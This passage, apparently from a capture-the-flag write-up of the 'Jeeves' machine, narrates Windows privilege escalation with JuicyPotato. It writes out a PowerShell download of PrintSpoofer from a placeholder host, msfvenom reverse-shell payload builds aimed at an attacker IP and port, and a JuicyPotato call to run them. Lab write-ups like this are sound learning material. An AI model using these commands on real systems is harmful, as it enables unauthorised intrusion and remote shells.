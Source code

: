 ```powershell
powershell -ep bypass -c "(new-object net.webclient).downloadfile('http://YOUR_IP/PrintSpoofer64.exe', 'C:\users\kohsuke\desktop\PrintSpoofer64.exe')"
```

<br>

## System

I do have some success with JuicyPotato though! Uploading it and trying to get a new shell with cmd.exe doesn't work, even though it mentions NT AUTHORITY.

![](images2/jeeves10.png)

I create a .exe reverse shell file with msfvenom and upload it, then use JuicyPotato to call it, but it gives an error message saying it failed to create a process.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.76 LPORT=4444 -f exe -o shell.exe`

`JuicyPotato.exe -l 1234 -p shell.exe -t *`

![](images2/jeeves11.png)

It also turns out that the file was deleted, so defender is probably running on this box.

Trying another approach, I again use msfvenom but create a .bat file instead this time. Then upload and use JuicyPotato to call it.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.76 LPORT=4444 > shell.bat`

